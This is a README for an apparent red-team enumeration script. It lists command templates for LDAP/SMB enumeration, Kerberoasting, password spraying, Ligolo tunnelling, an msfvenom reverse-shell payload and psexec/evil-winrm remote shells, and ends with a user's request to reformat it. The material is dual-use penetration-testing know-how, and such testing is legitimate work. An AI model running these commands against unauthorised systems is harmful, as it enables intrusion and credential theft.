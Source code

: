 # Red Team Enumeration Script

## Overview

The `enum_script.py` automates various enumeration tasks, leveraging a range of open-source tools. It simplifies reconnaissance and enumeration by integrating commands for SMB, LDAP, Kerberos, Nmap scanning, web fuzzing, and more.

## Installation

### **1. Clone the Repository**

```bash
git clone https://github.com/john5652/redteam.git
cd redteam
```

### **2. Install Python Dependencies**

```bash
pip install -r requirements.txt
```

### **3. Install External Tools**

Ensure the following tools are installed:

```bash
sudo apt update && sudo apt install -y \
    ldap-utils \
    impacket-scripts \
    smbclient \
    enum4linux \
    gobuster \
    ffuf \
    nikto \
    nmap \
    smbmap \
    kerbrute \
    crackmapexec \
    ligolo \
    snmp \
    cewl \
    bloodhound
```

## Usage

Run the script interactively:

```bash
python3 enum_script.py
```

Follow the prompts to select the enumeration option.

## Options and Dependencies

Below is a breakdown of each function, its purpose, and required tools:

### **1. LDAP Search**

- **Command:** `ldapsearch -x -H ldap://<domain>`
- **Tool:** `ldap-utils`
- **Description:** Queries LDAP for user and group information.

### **2. Windapsearch**

- **Command:** `python3 /home/kali/Tools/windapsearch/windapsearch.py -d <domain>`
- **Tool:** `windapsearch`
- **Description:** Enumerates LDAP details using Windapsearch.

### **3. GetUserSPNs (Kerberos)**

- **Command:** `impacket-GetUserSPNs -request <domain>`
- **Tool:** `impacket-scripts`
- **Description:** Enumerates Kerberos service accounts.

### **4. GetNPUsers (AS-REP Roasting)**

- **Command:** `impacket-GetNPUsers <domain> -no-pass`
- **Tool:** `impacket-scripts`
- **Description:** Enumerates Kerberos accounts that do not require pre-authentication.

### **5. RPC Anonymous Connect**

- **Command:** `rpcclient -U "" <target-ip>`
- **Tool:** `rpcbind`
- **Description:** Tests anonymous RPC connection.

### **6. SMB Anonymous Listing**

- **Command:** `smbclient -L <ip> -N`
- **Tool:** `smbclient`
- **Description:** Lists available SMB shares anonymously.

### **7. NBTSCan**

- **Command:** `nbtscan <target-ip>`
- **Tool:** `nbtscan`
- **Description:** Scans for NetBIOS names and shares.

### **8. Nikto Scan**

- **Command:** `nikto -h <target-url>`
- **Tool:** `nikto`
- **Description:** Scans web servers for known vulnerabilities.

### **9. Nmap Scan**

- **Command:** `nmap <options> <target-ip>`
- **Tool:** `nmap`
- **Description:** Performs network enumeration.

### **10. SMBMap Scan**

- **Command:** `smbmap -H <target-ip>`
- **Tool:** `smbmap`
- **Description:** Enumerates SMB shares.

### **11. BloodHound Data Collection**

- **Command:** `python3 /home/kali/Tools/BloodHound.py/bloodhound.py -d <domain>`
- **Tool:** `BloodHound`
- **Description:** Collects Active Directory enumeration data.

### **12. Kerbrute Password Spray**

- **Command:** `kerbrute passwordspray -d <domain> <wordlist>`
- **Tool:** `kerbrute`
- **Description:** Performs Kerberos password spraying.

### **13. CrackMapExec Password Spray**

- **Command:** `crackmapexec smb <target-ip> -u <users> -p <passwords>`
- **Tool:** `crackmapexec`
- **Description:** Tests credentials across SMB services.

### **14. Ligolo Setup**

- **Command:** `ligolo-proxy -selfcert -laddr 0.0.0.0:<port>`
- **Tool:** `ligolo`
- **Description:** Sets up Ligolo tunneling.

### **15. Create Reverse Shell**

- **Command:** `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe`
- **Tool:** `msfvenom`
- **Description:** Generates a reverse shell payload.

### **16. Impacket psexec**

- **Command:** `impacket-psexec <domain>/<user>:<pass>@<target-ip>`
- **Tool:** `impacket-scripts`
- **Description:** Executes commands on remote Windows systems using SMB.

### **17. Evil-WinRM**

- **Command:** `evil-winrm -i <target-ip> -u <user> -p <pass>`
- **Tool:** `evil-winrm`
- **Description:** Provides an interactive WinRM shell.

### **18. Gobuster Directory Enumeration**

- **Command:** `gobuster dir -u <target-url> -w <wordlist>`
- **Tool:** `gobuster`
- **Description:** Performs directory brute-forcing.

### **19. FFUF Web Fuzzing**

- **Command:** `ffuf -u <target-url>/FUZZ -w <wordlist>`
- **Tool:** `ffuf`
- **Description:** Fuzzes web applications for hidden paths and parameters.

### **20. SNMP Walk**

- **Command:** `snmpwalk -v1 -c public <target-ip>`
- **Tool:** `snmp`
- **Description:** Queries SNMP-enabled devices for information.

### **21. Cewl Wordlist Creation**

- **Command:** `cewl -w <wordlist.txt> <target-url>`
- **Tool:** `cewl`
- **Description:** Generates a wordlist from website content.

## Contributing

Contributions are welcome! Fork the repository and submit a pull request.

## License

This project is licensed under the MIT License.

This is great, can you give it to me in a README file I can copy and paste to upload to Git?

